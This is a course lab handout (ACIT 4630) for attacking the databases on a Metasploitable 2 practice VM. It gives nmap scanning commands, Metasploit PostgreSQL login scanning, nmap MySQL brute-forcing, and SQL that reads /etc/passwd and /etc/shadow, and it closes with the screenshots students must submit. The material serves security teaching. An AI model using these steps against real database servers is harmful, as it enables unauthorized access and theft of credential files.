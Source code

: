 # ACIT 4630 - Lab 3: Attacking Databases on Metasploitable 2

## Instructions

### Scanning for Open Ports
Run the following command to scan for services and ports on the Metasploitable 2 VM:
```sh
   sudo nmap -sV <Metasploitable2_VM_IP>
```
Identify the open ports for PostgreSQL (port 5432) and MySQL (port 3306).
Run a more detailed scan on the database ports: (OPTIONAL)
```sh
sudo nmap -T5 --script='all' -p5432,3306 <Metasploitable2_VM_IP>
```
### Attack PostgreSQL Database
Start Metasploit in Kali Linux:
```sh
   msfconsole
```
Search for the PostgreSQL login scanner:
```sh
   search scanner postgres login
```
Set the necessary variables:
- Set `RHOSTS` to your <Metasploitable2_VM_IP>.
- Set `ANONYMOUS_LOGIN` to true.

Run the exploit to find working credentials: `run` or `exploit`
After discovering the credentials, log in to the PostgreSQL database:
```sh
   psql -h <Metasploitable2_VM_IP> -U <Username> -d <DB Name>
```
Once inside the PostgreSQL shell, retrieve the system's password file as below:
1.	First, we need to create a Table:
    ```sql
    CREATE TABLE passwd_data (line TEXT);
    ```
2.	Then we need to copy the file to out table:
    ```sql
    COPY passwd_data FROM '/etc/passwd';
    ```
3.	We read the whole table:
    ```sql
    SELECT * from passwd_data;
    ```

### Attack MySQL Database
Run the following Nmap command to brute force MySQL credentials:
```sh
sudo nmap -T1 -d --script="mysql-brute" -p3306 <Metasploitable2_VM_IP>
```
**Note**: If no credentials are found, try again OR reboot the Metasploitable 2 VM.
After obtaining credentials, log in to MySQL:
```sh
  mysql -h <Metasploitable2_VM_IP> -u root -p --skip-ssl
```
In the MySQL shell, dump the password file:
```sql
SELECT load_file('/etc/shadow');
```

### Submission For Lab 3: 
- Add these screenshots to your report:
- Result of msfconsole postgres exploit
- Result of entering postgres database and retrieving the passwd file
- Result of nmap script where you got credentials of mysql
- Result of entering mysql database queries and retrieving the passwd file
